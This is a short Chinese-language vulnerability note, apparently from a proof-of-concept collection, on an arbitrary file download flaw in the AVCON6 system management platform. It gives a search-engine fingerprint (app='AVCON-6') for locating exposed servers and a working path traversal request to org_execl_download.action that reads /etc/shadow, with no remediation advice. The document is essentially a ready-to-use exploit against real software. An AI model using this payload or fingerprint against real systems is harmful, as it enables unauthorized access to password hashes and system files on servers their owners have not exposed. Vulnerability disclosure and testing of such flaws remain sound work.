 # AVCON6 系统管理平台 org_execl_download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 org_execl_download.action存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## 网络测绘

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](./images/202202101910822.png)

验证POC

```php
/org_execl_download.action?filename=../../../../../../../../../../../../../etc/shadow
```

![img](./images/202202101910818.png)